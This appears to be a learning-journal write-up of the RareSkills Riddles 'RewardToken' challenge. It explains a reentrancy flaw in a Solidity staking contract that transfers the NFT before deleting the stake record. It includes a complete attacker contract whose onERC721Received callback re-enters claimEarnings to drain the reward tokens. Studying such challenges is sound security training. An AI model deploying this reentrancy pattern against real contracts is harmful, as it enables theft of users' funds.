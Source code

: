 ## Day 23

### RareSkills Riddles: RewardToken

In this challenge there is an ERC20 called RewardToken which is given to holders of an NFT.  The contract for staking is called: ```Depositoor``` and has a number of functions for claiming and withdrawing our tokens.  ```Depositoor``` starts with 100 tokens and we start with 1 NFT and our job is to drain ```Depositoor``` of all 100 tokens.  The token reward rate is 10tokens/day.  We could just deposit and wait for 10day, but let's see if there is a fast way.  Here are the functions for claiming earnings.  

```Java
    function claimEarnings(uint256 _tokenId) public {
        require(
            stakes[msg.sender].tokenId == _tokenId && _tokenId != 0,
            "not your NFT"
        );
        payout(msg.sender);
        stakes[msg.sender].depositTime = block.timestamp;
    }

    function withdrawAndClaimEarnings(uint256 _tokenId) public {
        require(
            stakes[msg.sender].tokenId == _tokenId && _tokenId != 0,
            "not your NFT"
        );
        payout(msg.sender);
        nft.safeTransferFrom(address(this), msg.sender, _tokenId);
        delete stakes[msg.sender];
    }

    function payout(address _a) private {
        uint256 amountToSend = (block.timestamp - stakes[_a].depositTime) *
            REWARD_RATE;

        if (amountToSend > 50e18) {
            amountToSend = 50e18;
        }
        if (amountToSend > rewardToken.balanceOf(address(this))) {
            amountToSend = rewardToken.balanceOf(address(this));
        }

        rewardToken.transfer(_a, amountToSend);
    }
```

One thing to note is that ```withdrawAndClaimEarnings()``` calls ```ERC721.safeTransferFrom()``` BEFORE deleting the stake struct, this sounds like our old friend the Reentrancy Attack.  Also note that the NFT transfer is done with ```safeTransferFrom()``` which requires the reciver to be an ```IERC721Receiver```.  

A contract that does this is given below.  

```Java
contract RewardTokenAttacker is IERC721Receiver {
    Depositoor private victim;
    NftToStake private nft;
    uint256 constant NFTNUM = 42;

    constructor() {}

    function setVictim(address _victimAdd, address _nftAdd) external {
        victim = Depositoor(_victimAdd);
        nft = NftToStake(_nftAdd);
        // stake
        nft.safeTransferFrom(address(this), _victimAdd, NFTNUM);
    }

    function attack() external {
        victim.withdrawAndClaimEarnings(NFTNUM);
    }

    //function onERC721Received(address, address from, uint256 tokenId, bytes calldata)
    function onERC721Received(address, address, uint256, bytes calldata) external override returns (bytes4) {
        require(msg.sender == address(nft), "wrong NFT");

        // now do a claimEarnings
        victim.claimEarnings(NFTNUM);

        return IERC721Receiver.onERC721Received.selector;
    }
}
```